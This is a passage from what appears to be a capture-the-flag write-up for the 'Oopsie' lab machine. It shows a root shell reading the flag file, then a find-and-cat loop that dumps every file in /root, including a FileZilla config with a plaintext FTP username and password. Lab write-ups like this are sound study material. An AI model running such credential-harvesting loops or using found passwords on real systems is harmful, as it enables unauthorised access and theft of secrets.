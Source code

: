 Indeed, we are now a root user!  We can collect our flag and leave at once.
```bash
root@oopsie:/tmp# whoami
whoami
root
root@oopsie:/tmp# cd /root
cd /root
root@oopsie:/root# ls -A
ls -A
.bash_history  .cache	.gnupg	.profile  root.txt  .viminfo
.bashrc        .config	.local	reports   .ssh
root@oopsie:/root# PATH=$(getconf PATH)
PATH=$(getconf PATH)
root@oopsie:/root# cat root.txt
cat root.txt
af13b0bee69f8a877c3faf667f7beacf
```

<br>

---

<br>

## Notes

I got a little nudge for the final step of this.  But boy, this is a simple solution.  I had never thought of this before, and it is ever-so clever!

Another quick note: because this box used something from the previous box, I had a little look around, especially in this root directory:

```bash
# find . -type f | while IFS= read -r line; do echo "\n\n\033[1;38m$line\033[0;38m"; cat "$line"; done
find . -type f | while IFS= read -r line; do echo "\n\n\033[1;38m$line\033[0;38m"; cat "$line"; done

...

./.config/filezilla/filezilla.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
```

Good to note that there is a username and password in plain text here in this last file we found.
